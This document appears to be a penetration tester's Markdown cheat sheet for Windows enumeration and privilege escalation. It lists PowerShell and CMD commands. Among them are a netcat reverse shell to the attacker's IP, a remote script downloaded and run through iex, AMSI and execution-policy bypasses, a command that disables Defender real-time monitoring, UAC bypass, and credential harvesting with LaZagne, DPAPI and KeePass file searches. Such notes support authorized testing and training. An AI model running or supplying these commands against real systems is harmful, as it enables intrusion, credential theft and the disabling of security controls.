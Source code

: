 # Methodology

**Note:** Commands that have equivalents for both CMD and PowerShell will be separated with `---`, with the CMD command first, followed by their PowerShell equivalents.

## Prep Work

```powershell
# Establish a working environment to drop files into
C:\ProgramData
C:\Users\Public
C:\Temp

# Upgrade the current shell
iwr -uri $OUR_IP/nc.exe -outfile nc.exe
rlwrap -crA nc -lvnp 9002 # On kali box
.\nc.exe $OUR_IP 9002 -e cmd.exe
powershell -ep bypass
```

## Enumeration

```powershell
# Bypass AMSI if necessary (evil-winrm)
Bypass-4MSI

# Import powershell script to current session
iex(new-object net.webclient).downloadstring('http://$OUR_IP:$PORT/$SCRIPT.ps1') # Not required if using evil-winrm

# Run automated tools if possible
Invoke-PrivescCheck
Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML
Invoke-PrivescCheck -Extended -Audit -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML,CSV,XML
Invoke-BloodHound -c All
.\LaZagne.exe all -v

# Check privileges
whoami /all
tree C:\Users /a /f

# Check local users/groups
net user
net user $USER
net localgroup

Get-LocalUser
Get-LocalGroup

# Check local group memberships
net localgroup $GROUP

Get-LocalGroupMember $GROUP

# Gather system information
systeminfo # Check "OS Name", "OS Version", "System Type"

# Gather network information
netstat -ano | findstr LIST # Look for new available ports
Get-Process -Id $PID        # Check the process associated with a PID
ipconfig /all               # Check "Physical Address", "DHCP Enabled", "IPv4 Address", "Default Gateway", and "DNS Servers"
route print                 # Look for attack vectors to other systems or networks

# Check installed applications
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select DisplayName,DisplayVersion
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select DisplayName,DisplayVersion

# Check running processes
Get-Process | Sort-Object Id
Get-Process | Select-Object Id, ProcessName, Path | Sort-Object Id

# Enumerate user directories
gci -Path C:\Users -Include ConsoleHost_history.txt -File -Force -Recurse -ErrorAction SilentlyContinue
gci -Path C:\Users -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

# Check file permissions
icacls $TARGET /c

# Search for sensitive files
gci -Path C:\xampp -Include my.ini -File -Recurse -ErrorAction SilentlyContinue
gci -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
gci -Path C:\inetpub -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
gci -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue    # KeePass database files
gci -Path C:\ -Include .git -Directory -Recurse -Force -ErrorAction SilentlyContinue
gci -Path C:\ -Include *.doc,*.docx,*.xls,*.xlsx,*.pdf -File -Recurse -ErrorAction SilentlyContinue

# Check command history
Get-History
dir C:\Users\$USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine

# Check DPAPI
gci C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SID -Force
dir C:\Users\$USER\AppData\Local\Microsoft\Protect\$SID -Force

# Check services
Get-CimInstance -ClassName win32_service | Select ProcessId, Name, State, PathName | Sort-Object ProcessId | Where-Object {$_.State -like 'Running'}
Get-CimInstance -ClassName win32_service | Sort-Object ProcessId
Get-CimInstance -ClassName win32_service | Where-Object {$_.Name -like '$SERVICE_NAME'}

# Manage services
Restart-Service $SERVICE_NAME
net stop $SERVICE_NAME --- Stop-Service $SERVICE_NAME
net start $SERVICE_NAME --- Start-Service $SERVICE_NAME

# Check path environment variable
$env:path

# Check scheduled tasks
schtasks /query /fo LIST /v > tasks.txt
dos2unix tasks.txt     # On kali
less tasks.txt         # On kali, search for tasks owned by privileged accounts. Check "TaskName", "Next Run Time", "Author", "Task To Run", and "Run As User"
schtasks /query /fo LIST /v /TN "$TASK"
cat tasks.txt | grep \.exe | grep -iv system32

# Check dotnet version
gci 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse | Get-ItemProperty -Name Version,Release -ErrorAction 0 | Where { $_.PSChildName -match '^(?!S)\p{L}'} | Select PSChildName, Version, Release

# Check Defender
Get-MpComputerStatus
Get-MpComputerStatus | Select RealTimeProtectionEnabled
Get-MpPreference | Select-Object -Property ExclusionPath
Set-MpPreference -DisableRealTimeMonitoring $true

# Check for additional sessions
qwinsta
Invoke-RunasCs x x qwinsta -l 9
```

### Additional Tools

```powershell
# RunasCs
Invoke-RunasCs $USER '$PASSWD' '$PASSWD' -t 0
Invoke-RunasCs $USER '$PASSWD' '$PASSWD' -t 0 --bypass-uac --logon-type 8

# SharpUp
.\SharpUp.exe audit

# LaZagne.exe
.\LaZagne.exe all -v
```

## Tools

1. [PrivescCheck](https://github.com/itm4n/PrivescCheck)
2. [SharpHound.ps1](https://github.com/SpecterOps/BloodHound-Legacy)
3. [LaZagne](https://github.com/AlessandroZ/LaZagne) - **USE 2.4.5 RELEASE OR YOU WILL HAVE DEPENDENCY ISSUES**
4. [SharpUp](https://github.com/GhostPack/SharpUp)
5. [winPEAS](https://github.com/carlospolop/PEASS-ng/releases/)
6. [Seatbelt](Tools/Seatbelt.md)

**Honorable Mention**

7. [PowerUp](Tools/PowerUp.md)

## Resources

- [Privileged Groups](https://github.com/ivanversluis/pentest-hacktricks/blob/master/windows/active-directory-methodology/privileged-accounts-and-token-privileges.md)
